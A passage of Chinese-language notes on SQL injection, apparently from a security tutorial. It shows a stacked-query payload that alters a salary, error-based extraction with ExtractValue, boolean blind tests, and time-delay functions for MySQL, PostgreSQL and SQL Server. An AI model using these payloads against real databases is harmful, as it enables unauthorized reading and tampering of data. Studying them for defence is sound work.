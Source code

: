涨工资

```sql
select salary from staff where name='张三'; update staff set salary=20000 where name='张三'
```

#### 报错注入

> 利用报错回显需要信息，如数据库类型、sql语句、过滤方式等

例：利用ExtractValue函数第二个参数必须是XPath格式使其报错回显参数

```
ExtractValue(1,concat(0x7e,database()))
```

0x7e表示”~“，拼接后回显XPATH syntax error： '~database_name'

#### 布尔型盲注

> 构建简单条件语句，根据返回页面是否变化验证语句是否执行

输入参数页面

```
http://example.com/item.php?id=1
```

执行的sql语句为

```sql
select title, description, body from items where id=1
```

验证id是否存在注入漏洞，使用条件运算查看页面是否显示异常或正常显示，可能出现在其他地方微小变化，如DOM节点，响应长度等

```sql
select title, description, body from items where id=1 and 1=2
select title, description, body from items where id=1 and 1=1
```

#### 延时盲注

> 根据执行时间判断是否注入成功

1. MySQL中BENCHMACK(次数，函数)函数可以让一个函数执行若干次

| 数据库     | 延时方法                         |
| ---------- | -------------------------------- |
| MySQL      | BENCHMACK()；SLEEP()；GET_LOCK() |
| PostgreSQL | pg_sleep()；generate_series()    |
| SQL Server | WAITFOR_DELAY '0:0:1'            |

2. 让数据库对一张表进行笛卡尔积操作

#### 带外数据注入

> 通过特定通道向外发送数据
>
> 当查询数据库操作异步进行时，前面方法将失效

